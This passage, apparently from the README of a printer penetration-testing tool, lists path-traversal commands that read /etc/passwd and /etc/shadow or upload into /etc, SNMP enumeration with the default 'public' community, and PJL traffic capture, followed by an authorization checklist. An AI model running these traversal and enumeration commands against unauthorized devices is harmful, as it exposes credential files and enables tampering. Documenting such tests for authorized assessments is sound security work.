 
## 🔍 Advanced Testing Techniques

### Fuzzing Filesystem

```bash
# Automated fuzzing
> fuzz

# Manual fuzzing with custom paths
> ls /../../../../etc/passwd
> download ../../../etc/shadow
> upload test.txt ../../etc/test.txt
```

### SNMP Enumeration

```bash
# From command line (before connecting)
snmpwalk -v1 -c public <target> 1.3.6.1.2.1.43

# Get printer description
snmpget -v1 -c public <target> 1.3.6.1.2.1.25.3.2.1.3.1

# Get interpreter information
snmpget -v1 -c public <target> 1.3.6.1.2.1.43.15.1.1.5.1
```

### Network Traffic Analysis

```bash
# Capture PJL traffic
tcpdump -i eth0 -w printer_traffic.pcap port 9100

# Analyze with Wireshark
wireshark printer_traffic.pcap
```

---

## ⚠️ Legal and Ethical Considerations

### Before Testing

**Required:**
- ✅ Written authorization from device owner
- ✅ Clear scope of testing
- ✅ Defined testing boundaries
- ✅ Incident response plan

**Prohibited:**
- ❌ Testing without permission
- ❌ Accessing production systems
- ❌ Destructive testing without approval
- ❌ Data exfiltration without authorization
